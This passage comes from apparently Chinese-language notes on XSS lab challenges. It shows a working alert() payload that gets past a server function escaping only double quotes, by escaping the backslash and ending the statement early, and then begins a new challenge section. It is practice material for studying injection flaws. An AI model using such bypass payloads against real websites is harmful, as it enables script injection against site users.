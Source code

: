 ```
`
}
```



## 0x12——\转义且分号提前结束赋值语句绕过

```
\");alert(1);//
```

![image-20220116115418298](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/02%20XSS%E9%9D%B6%E5%9C%BA.assets/image-20220116115418298.png)

```
[html]
<script>console.log("\\");alert(1);//");</script>

[server code]
// from alf.nu
function escape (s) {
  s = s.replace(/"/g, '\\"')
  return '<script>console.log("' + s + '");</script>'
}
```




# XSS挑战

https://xssaq.com/yx/index.php

但凡和用户互动的地方可能出现漏洞

## level1
